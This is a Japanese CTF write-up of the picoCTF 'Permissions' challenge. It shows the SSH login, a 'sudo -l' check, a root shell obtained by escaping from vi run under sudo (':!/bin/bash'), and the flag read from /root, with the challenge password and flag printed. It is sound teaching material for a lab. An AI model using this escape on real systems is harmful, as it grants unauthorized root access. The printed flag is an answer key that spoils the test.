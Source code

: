 # Permissions - Writeup

**著者:** Peter Muiruri
**投稿日:** 2023年3月30日

このCTFは、Linuxの権限昇格（Privilege Escalation）に関する知識をテストするものです。問題文に記載された認証情報を使用してSSHでサーバーに接続し、rootディレクトリ内のファイルを読むことが目的です。

---

## 手順

### 1. SSHで接続する

次のコマンドでサーバーに接続します。

```bash
ssh -p 60665 picoplayer@saturn.picoctf.net
# パスワード: vCR2tuwCRm
```

---

### 2. sudo権限を確認する

ユーザーがどのようなsudo権限を持っているか確認します。

```bash
sudo -l
```

出力結果から、ユーザーが `vi` テキストエディタをroot権限で実行できることが分かります。

---

### 3. viをroot権限で起動する

次のようにして任意のファイルをroot権限で開きます。

```bash
sudo vi test
```

現在のディレクトリに`test`という空ファイルを作成して開きます。

---

### 4. viのコマンドモードからbashを起動する

`Esc`キーを押してコマンドモードに入り、次のコマンドを入力します。

```vim
:!/bin/bash
```

これによりroot権限のbashシェルが起動します（`vi`がsudo経由でroot権限を持っているため）。

---

### 5. /rootディレクトリのファイルを確認

rootシェルを取得したら、`/root`ディレクトリに移動してフラグを探します。

```bash
cd /root
ls -la
```

最初に`ls`を実行しても何も表示されませんでしたが、`ls -la`を使うことで隠しファイルを含めた一覧が表示されます。目的のフラグファイルを見つけたら内容を確認します。

```bash
cat <flag_file>
```

---

### ✅ フラグ

```
picoCTF{uS1ng_v1m_3dit0r_ad091ce1}
```

---

## 解説

この問題は、`sudo`で`vi`をroot権限で実行できる状況を利用して権限昇格を行う典型的なCTF問題です。`vi`や`vim`のような対話型エディタは、内部でシェルコマンドを実行できるため、`sudo`権限が与えられているとroot権限のシェルを取得できます。

**参考:** [GTFOBins: vi](https://gtfobins.github.io/gtfobins/vi/)

---

## まとめ

* `sudo -l` で実行可能なコマンドを確認
* `vi` がroot権限で許可されている場合、`:!/bin/bash`でrootシェル取得
* `/root`ディレクトリ内のフラグを読む

この一連の手順で、Linuxの権限昇格の仕組みを理解し、セキュリティ設定の重要性を学ぶことができます。
